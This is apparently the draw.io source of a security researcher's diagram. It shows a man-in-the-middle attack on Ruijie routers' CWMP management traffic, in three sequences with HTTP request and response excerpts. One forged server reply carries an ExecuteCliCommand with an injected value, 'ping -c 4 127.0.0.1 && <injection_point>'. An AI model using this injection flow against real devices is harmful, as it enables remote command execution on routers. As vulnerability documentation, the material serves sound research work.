

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="1344" dy="791" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="Aq1o0JNA6zl5UUkaR8t9-3" value="CWMP Pooling MiTM Sequence to Execute OS Injection Command" style="swimlane;childLayout=stackLayout;resizeParent=1;resizeParentMax=0;horizontal=1;startSize=20;horizontalStack=0;html=1;" vertex="1" parent="1">
      <mxGeometry width="850" height="1100" as="geometry" />
    </mxCell>
    <mxCell id="Aq1o0JNA6zl5UUkaR8t9-4" value="Sequence 1" style="swimlane;startSize=20;horizontal=0;html=1;" vertex="1" parent="Aq1o0JNA6zl5UUkaR8t9-3">
      <mxGeometry y="20" width="850" height="360" as="geometry" />
    </mxCell>
    <mxCell id="-ZUA5GPKmJG7i6ZqaesP-1" value="" style="points=[];aspect=fixed;html=1;align=center;shadow=0;dashed=0;image;image=img/lib/allied_telesis/storage/Datacenter_Server_Half_Rack_ToR.svg;" vertex="1" parent="Aq1o0JNA6zl5UUkaR8t9-4">
      <mxGeometry x="738" y="102" width="88.2" height="114.6" as="geometry" />
    </mxCell>
    <mxCell id="-ZUA5GPKmJG7i6ZqaesP-2" value="" style="image;html=1;image=img/lib/clip_art/networking/Wireless_Router_128x128.png" vertex="1" parent="Aq1o0JNA6zl5UUkaR8t9-4">
      <mxGeometry x="38" y="119.30000000000001" width="80" height="80" as="geometry" />
    </mxCell>
    <mxCell id="-ZUA5GPKmJG7i6ZqaesP-3" value="" style="endArrow=classic;html=1;rounded=0;strokeWidth=3;" edge="1" parent="Aq1o0JNA6zl5UUkaR8t9-4">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="140" y="145" as="sourcePoint" />
        <mxPoint x="720" y="145" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="-ZUA5GPKmJG7i6ZqaesP-4" value="INFORM" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="Aq1o0JNA6zl5UUkaR8t9-4">
      <mxGeometry x="47" y="90" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="-ZUA5GPKmJG7i6ZqaesP-5" value="&lt;div&gt;POST /service/acs/&amp;lt;device_SN&amp;gt;&amp;nbsp;HTTP/1.1&lt;/div&gt;&lt;div&gt;Host: cwmpb-as.ruijienetworks.com&lt;/div&gt;&lt;div&gt;Content-Type: text/xml; charset=&quot;utf-8&quot;&lt;/div&gt;&lt;div&gt;Content-Encoding: gzip&lt;/div&gt;&lt;div&gt;Content-Length: x&lt;/div&gt;&lt;div&gt;Connection: close&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&amp;lt;?xml ...&amp;nbsp;&lt;/div&gt;&lt;div&gt;... &amp;lt;cwmp:Inform&amp;gt; ...&lt;br&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="Aq1o0JNA6zl5UUkaR8t9-4">
      <mxGeometry x="150" y="10" width="300" height="130" as="geometry" />
    </mxCell>
    <mxCell id="-ZUA5GPKmJG7i6ZqaesP-6" value="&lt;p style=&quot;margin: 0px;&quot;&gt;HTTP/1.1 200 OK&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Server: nginx/1.16.1&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Date: Sat, 15 Apr 2023 03:58:35 GMT&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Content-Type: text/xml;charset=utf-8&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Content-Length: 756&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Connection: close&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Set-Cookie: JSESSIONID=abcdef; Path=/service; HttpOnly&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;&lt;br&gt;&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;&amp;lt;?xml ...&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;&lt;/p&gt;&amp;lt;cwmp:InformResponse&amp;gt; ..." style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="Aq1o0JNA6zl5UUkaR8t9-4">
      <mxGeometry x="499" y="187" width="310" height="169" as="geometry" />
    </mxCell>
    <mxCell id="-ZUA5GPKmJG7i6ZqaesP-7" value="INFORM RESPONSE" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="Aq1o0JNA6zl5UUkaR8t9-4">
      <mxGeometry x="752.1" y="228" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="-ZUA5GPKmJG7i6ZqaesP-8" value="" style="endArrow=classic;html=1;rounded=0;strokeWidth=3;" edge="1" parent="Aq1o0JNA6zl5UUkaR8t9-4">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="720" y="174" as="sourcePoint" />
        <mxPoint x="140" y="174" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="QhcPESp35DpoFWdWK06w-2" value="" style="shape=image;html=1;verticalAlign=top;verticalLabelPosition=bottom;labelBackgroundColor=#ffffff;imageAspect=0;aspect=fixed;image=https://cdn1.iconfinder.com/data/icons/ninja-things-1/720/ninja-background-128.png" vertex="1" parent="Aq1o0JNA6zl5UUkaR8t9-4">
      <mxGeometry x="785.2" y="175.6" width="41" height="41" as="geometry" />
    </mxCell>
    <mxCell id="MckPy2CghOPK37p9mmwE-1" value="Sequence 2" style="swimlane;startSize=20;horizontal=0;html=1;" vertex="1" parent="Aq1o0JNA6zl5UUkaR8t9-3">
      <mxGeometry y="380" width="850" height="350" as="geometry" />
    </mxCell>
    <mxCell id="BoZVUbm_NGDu68szZjyo-1" value="&lt;p style=&quot;margin: 0px;&quot;&gt;HTTP/1.1 200 OK&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Server: nginx/1.16.1&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Date: Sat, 15 Apr 2023 03:58:35 GMT&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Content-Type: text/xml;charset=utf-8&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Content-Length: 756&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Connection: close&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Set-Cookie: JSESSIONID=abcdef; Path=/service; HttpOnly&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;&lt;br&gt;&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;&amp;lt;?xml ...&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;... &amp;lt;cwmp:ID SOAP-ENV:mustUnderstand=&quot;1&quot;&amp;gt;&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;ID:intrnl.unset.id.X_RUIJIE_COM_CN_ExecuteCliCommand&amp;lt;epoch_current_time&amp;gt;&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;&amp;lt;/cwmp:ID&amp;gt; ...&lt;br&gt;&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;...&amp;lt;Command&amp;gt;ping -c 4 127.0.0.1 &amp;amp;amp;&amp;amp;amp; &amp;lt;injection_point&amp;gt;&amp;lt;/Command&amp;gt; ...&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="MckPy2CghOPK37p9mmwE-1">
      <mxGeometry x="392.65" y="139" width="454.35" height="201" as="geometry" />
    </mxCell>
    <mxCell id="BoZVUbm_NGDu68szZjyo-2" value="" style="points=[];aspect=fixed;html=1;align=center;shadow=0;dashed=0;image;image=img/lib/allied_telesis/storage/Datacenter_Server_Half_Rack_ToR.svg;" vertex="1" parent="MckPy2CghOPK37p9mmwE-1">
      <mxGeometry x="738" y="57.5" width="88.2" height="114.6" as="geometry" />
    </mxCell>
    <mxCell id="BoZVUbm_NGDu68szZjyo-3" value="" style="image;html=1;image=img/lib/clip_art/networking/Wireless_Router_128x128.png" vertex="1" parent="MckPy2CghOPK37p9mmwE-1">
      <mxGeometry x="38" y="74.79999999999995" width="80" height="80" as="geometry" />
    </mxCell>
    <mxCell id="BoZVUbm_NGDu68szZjyo-5" value="ASK" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="MckPy2CghOPK37p9mmwE-1">
      <mxGeometry x="45.999999999999986" y="45.5" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="BoZVUbm_NGDu68szZjyo-6" value="&lt;div&gt;POST /service/acs/&amp;lt;device_SN&amp;gt; HTTP/1.1&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Host: cwmpb-as.ruijienetworks.com&lt;/div&gt;&lt;div&gt;Content-Type: text/xml&lt;/div&gt;&lt;div&gt;Content-Encoding: gzip&lt;/div&gt;&lt;div&gt;Content-Length: x&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="MckPy2CghOPK37p9mmwE-1">
      <mxGeometry x="150" y="8" width="421.1" height="88.5" as="geometry" />
    </mxCell>
    <mxCell id="BoZVUbm_NGDu68szZjyo-7" value="GIVE&lt;br&gt;COMMAND" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="MckPy2CghOPK37p9mmwE-1">
      <mxGeometry x="752.1" y="183.5" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="ZB1C9dg6Yf2Ws8pr8j4I-10" value="" style="endArrow=classic;html=1;rounded=0;strokeWidth=3;" edge="1" parent="MckPy2CghOPK37p9mmwE-1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="715" y="128.63" as="sourcePoint" />
        <mxPoint x="135" y="128.63" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="ZB1C9dg6Yf2Ws8pr8j4I-9" value="" style="endArrow=classic;html=1;rounded=0;strokeWidth=3;" edge="1" parent="MckPy2CghOPK37p9mmwE-1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="135" y="99.63" as="sourcePoint" />
        <mxPoint x="715" y="99.63" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="QhcPESp35DpoFWdWK06w-3" value="" style="shape=image;html=1;verticalAlign=top;verticalLabelPosition=bottom;labelBackgroundColor=#ffffff;imageAspect=0;aspect=fixed;image=https://cdn1.iconfinder.com/data/icons/ninja-things-1/720/ninja-background-128.png" vertex="1" parent="MckPy2CghOPK37p9mmwE-1">
      <mxGeometry x="785.2" y="131.10000000000002" width="41" height="41" as="geometry" />
    </mxCell>
    <mxCell id="MckPy2CghOPK37p9mmwE-2" value="Sequence 3" style="swimlane;startSize=20;horizontal=0;html=1;" vertex="1" parent="Aq1o0JNA6zl5UUkaR8t9-3">
      <mxGeometry y="730" width="850" height="370" as="geometry" />
    </mxCell>
    <mxCell id="ZB1C9dg6Yf2Ws8pr8j4I-1" value="&lt;div style=&quot;border-color: var(--border-color);&quot;&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;HTTP/1.1 204 No Content&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Server: nginx/1.16.1&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Date: Sat, 15 Apr 2023 03:23:33 GMT&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Content-Type: text/xml;charset=utf-8&lt;/p&gt;&lt;p style=&quot;margin: 0px;&quot;&gt;Connection: keep-alive&lt;/p&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="MckPy2CghOPK37p9mmwE-2">
      <mxGeometry x="499" y="270" width="310" height="79" as="geometry" />
    </mxCell>
    <mxCell id="ZB1C9dg6Yf2Ws8pr8j4I-2" value="" style="points=[];aspect=fixed;html=1;align=center;shadow=0;dashed=0;image;image=img/lib/allied_telesis/storage/Datacenter_Server_Half_Rack_ToR.svg;" vertex="1" parent="MckPy2CghOPK37p9mmwE-2">
      <mxGeometry x="738" y="185" width="88.2" height="114.6" as="geometry" />
    </mxCell>
    <mxCell id="ZB1C9dg6Yf2Ws8pr8j4I-3" value="" style="image;html=1;image=img/lib/clip_art/networking/Wireless_Router_128x128.png" vertex="1" parent="MckPy2CghOPK37p9mmwE-2">
      <mxGeometry x="38" y="202.29999999999995" width="80" height="80" as="geometry" />
    </mxCell>
    <mxCell id="ZB1C9dg6Yf2Ws8pr8j4I-5" value="EXECUTE" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="MckPy2CghOPK37p9mmwE-2">
      <mxGeometry x="44" y="173" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="ZB1C9dg6Yf2Ws8pr8j4I-6" value="&lt;div&gt;POST /service/acs/&amp;lt;device_SN&amp;gt; HTTP/1.1&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Host: cwmpb-as.ruijienetworks.com&lt;/div&gt;&lt;div&gt;&lt;span style=&quot;background-color: initial;&quot;&gt;Cookie: JSESSIONID=abcdef&lt;/span&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;Content-Type: text/xml; charset=&quot;utf-8&quot;&lt;/div&gt;&lt;div&gt;Content-Encoding: gzip&lt;/div&gt;&lt;div&gt;Content-Length: x&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&amp;lt;?xml ...&lt;/div&gt;&lt;div&gt;&lt;p style=&quot;border-color: var(--border-color); margin: 0px;&quot;&gt;... &amp;lt;cwmp:ID SOAP-ENV:mustUnderstand=&quot;1&quot;&amp;gt;&lt;/p&gt;&lt;p style=&quot;border-color: var(--border-color); margin: 0px;&quot;&gt;ID:intrnl.unset.id.X_RUIJIE_COM_CN_ExecuteCliCommand&amp;lt;epoch_current_time&amp;gt;&lt;/p&gt;&lt;p style=&quot;border-color: var(--border-color); margin: 0px;&quot;&gt;&amp;lt;/cwmp:ID&amp;gt; ...&lt;/p&gt;&lt;p style=&quot;border-color: var(--border-color); margin: 0px;&quot;&gt;... &amp;lt;Response&amp;gt;PING 127.0.0.1 (127.0.0.1): 56 data bytes ...&lt;/p&gt;&lt;p style=&quot;border-color: var(--border-color); margin: 0px;&quot;&gt;&amp;lt;response_os_injection&amp;gt;&lt;/p&gt;&lt;p style=&quot;border-color: var(--border-color); margin: 0px;&quot;&gt;&amp;lt;/Response&amp;gt; ...&lt;/p&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="MckPy2CghOPK37p9mmwE-2">
      <mxGeometry x="150" y="21" width="450" height="192" as="geometry" />
    </mxCell>
    <mxCell id="ZB1C9dg6Yf2Ws8pr8j4I-7" value="DONE" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="MckPy2CghOPK37p9mmwE-2">
      <mxGeometry x="752.1" y="311" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="ZB1C9dg6Yf2Ws8pr8j4I-12" value="" style="endArrow=classic;html=1;rounded=0;strokeWidth=3;" edge="1" parent="MckPy2CghOPK37p9mmwE-2">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="715" y="256.13" as="sourcePoint" />
        <mxPoint x="135" y="256.13" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="ZB1C9dg6Yf2Ws8pr8j4I-13" value="" style="endArrow=classic;html=1;rounded=0;strokeWidth=3;" edge="1" parent="MckPy2CghOPK37p9mmwE-2">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="135" y="227.13" as="sourcePoint" />
        <mxPoint x="715" y="227.13" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="QhcPESp35DpoFWdWK06w-4" value="" style="shape=image;html=1;verticalAlign=top;verticalLabelPosition=bottom;labelBackgroundColor=#ffffff;imageAspect=0;aspect=fixed;image=https://cdn1.iconfinder.com/data/icons/ninja-things-1/720/ninja-background-128.png" vertex="1" parent="MckPy2CghOPK37p9mmwE-2">
      <mxGeometry x="785.2" y="258.6" width="41" height="41" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>